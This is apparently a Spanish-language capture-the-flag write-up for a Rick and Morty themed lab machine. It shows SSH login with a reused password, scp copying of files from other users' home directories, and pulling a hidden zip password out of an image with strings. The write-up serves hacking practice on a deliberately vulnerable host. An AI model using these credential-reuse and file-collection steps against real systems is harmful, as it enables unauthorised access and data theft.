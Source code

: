 ### Habiendo encontrado antes una contraseña "winter", intenté acceder por ssh con el usuario Summer (nota: el servicio ssh está en el puerto 22222)
```
┌──(kali㉿kali)-[~]
└─$ ssh Summer@192.168.1.243 -p 22222
```
### Encontré en su direcctorio unicamente esta flag

```
[Summer@localhost ~]$ tail FLAG.txt 
FLAG{Get off the high road Summer!} - 10 Points
```
### Seguidamente busqué en el home de RickSanchez y Morty, encontrando estos ficheros que extaje a mi máquina usando scp
```
scp -P 22222 Summer@192.168.1.243:/home/Morty/journal.txt.zip ./

scp -P 22222 Summer@192.168.1.243:/home/Morty/Safe_Password.jpg ./

scp -P 22222 Summer@192.168.1.243:/home/RickSanchez/RICKS_SAFE/safe ./
```
### Al intentar descomprimir journal.txt me pide contraseña
```
┌──(kali㉿kali)-[~/Desktop/maquina_rick_y_morty]
└─$ unzip journal.txt.zip 
Archive:  journal.txt.zip
[journal.txt.zip] journal.txt password: 
```

### La imagen es una foto de Rick, nada interesante, pero al mirar con strings podemos encontrar una contraseña oculta "Meeseek"

```
┌──(kali㉿kali)-[~/Desktop/maquina_rick_y_morty]
└─$ strings Safe_Password.jpg 
JFIF
Exif
8 The Safe Password: File: /home/Morty/journal.txt.zip. Password: Meeseek
8BIM
8BIM
$3br
```
### Una vez descomprimido, es una flag, pero aún más importante, tiene un código
```
┌──(kali㉿kali)-[~/Desktop/maquina_rick_y_morty]
└─$ cat journal.txt
Monday: So today Rick told me huge secret. He had finished his flask and was on to commercial grade paint solvent. He spluttered something about a safe, and a password. Or maybe it was a safe password... Was a password that was safe? Or a password to a safe? Or a safe password to a safe?

Anyway. Here it is:

FLAG: {131333} - 20 Points 
```
